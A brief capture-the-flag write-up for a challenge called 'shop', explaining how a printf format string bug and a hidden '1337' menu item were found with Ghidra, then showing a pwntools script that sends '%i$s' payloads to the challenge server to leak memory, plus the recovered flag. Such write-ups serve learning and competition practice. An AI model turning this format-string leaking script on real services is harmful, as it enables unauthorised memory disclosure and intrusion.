 # shop 400
#### go on, maybe buy a playlist
#### nc 195.154.231.70 4343

[f](https://github.com/gamer-1478/unreal-ctf/blob/main/f)


[inspiration](https://ir0nstone.gitbook.io/notes/types/stack/format-string)
(A much better writeup)

using lead confirmations i was able to find out that this involes a format string attack. seeing that it uses printf directly on our input, i wrote a little script to expose all characters from 0,90. 
using ghidra we can see a hidden menu item of 1337 biscuits which loads flag into memory. 
writing a script accordingly.

```py
from pwn import *

host,port = '195.154.231.70', 4343

for i in range(90):
    print(i)
    s = remote(host,port)
    s.recvuntil(b'choice:')
    s.sendline(b"1337")
    s.sendline('%' + str(i) + '$s')
    print(s.recvuntil(b'at:'))
    print(i), print(s.recv())
    s.close
```

```
flag - unreal{s1_w4nn4_533_y0ur_50lv3_5cr1p7}
```

